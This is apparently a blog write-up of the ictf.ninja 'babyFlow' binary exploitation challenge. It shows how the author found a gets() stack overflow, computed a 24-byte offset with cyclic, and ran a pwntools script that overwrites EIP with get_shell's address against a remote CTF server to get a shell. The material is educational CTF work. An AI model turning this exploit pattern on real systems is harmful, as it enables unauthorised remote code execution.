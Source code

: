 ```yaml
---
layout: post
title: "babyFlow"
date: 2023-02-18
categories: [ctf, challenge-pwn]
image: /assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png
---
```


# ictf.ninja -  babyFlow

*Category : Binary Exploitation*

Challenge called babyFlow that was done in this writeup

Let start by analyze binary with File command

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/babyFlow.png)


From above, File Command give us three descriptions in which
- The file is running under architecture of 32 bit
- The word dynamically linked meaning that some functions are loaded from my pc
- The word not stripped meaning that binary functions' name are preserved

Let check security of binary and i can see that it is basically doesnot have any security that i need to worry about it
```
➜  pwn checksec babyFlow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/blackninja23/Documents/ctf/ninjactf/pwn/babyFlow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


Open binary with ghidra, i can see that function get is used

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/gets.png)

Use manual page of linux, `man gets`,i can see that it is vulnerable to buffer overflow

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getsvuln.png)

Verify by sending more 'A's to the inputs and i got segmentation fault in which it is meaning to be overflow of buffer

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/bufferoverflow.png)

Analyze more in ghidra, i can see that i have function called get_shell in which it gives shell

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getshell.png)

With Logic that i have is that i need to overflow butter to the instruction pointer and give instruction pointer that address of get_shell so as to get shell

But first i need to find offset in which i would fill before affect instruction pointer.

With this, I will use cyclic command to generate random characters with different value after 4 bytes

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/offset.png)

Second, I will use pwndbg to run my binary then send those value of size 100

*Command*
```
gdb ./babyFlow
```
After send those value, i can see that EIP take value of 'gaaa'(0x61616167)
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIP.png)

Use cyclic command, we can get offset of value 24

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPo.png)

First I would check if i can overwrite after 24 bytes sent and so we generate random value of 'A','B','C'

```
➜  pwn python3 -c 'print("A"*24+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAABBBB
```

By checking, i can see that i can overwrite its value of 'B'

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPOverwrite.png)

i need to send address of get_shell instead of value of 'B'

At this point, i will write python script in which i would send random 24 bytes and its address after 24 bytes and i will got shell on server but keep in mind, i already test it on binary
```
from pwn import *
add = ELF('./babyFlow')
#e = process('./babyFlow')
host = "143.198.219.171"
port = 5000
e = remote(host,port)
offset = 24
payload = b'A'* offset
payload +=p32(add.symbols['get_shell'])
print(add.symbols['get_shell'])
print(payload)
print(e.recvuntil(b'\n'))

e.sendline(payload)

e.interactive()
```

I got flag

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png)
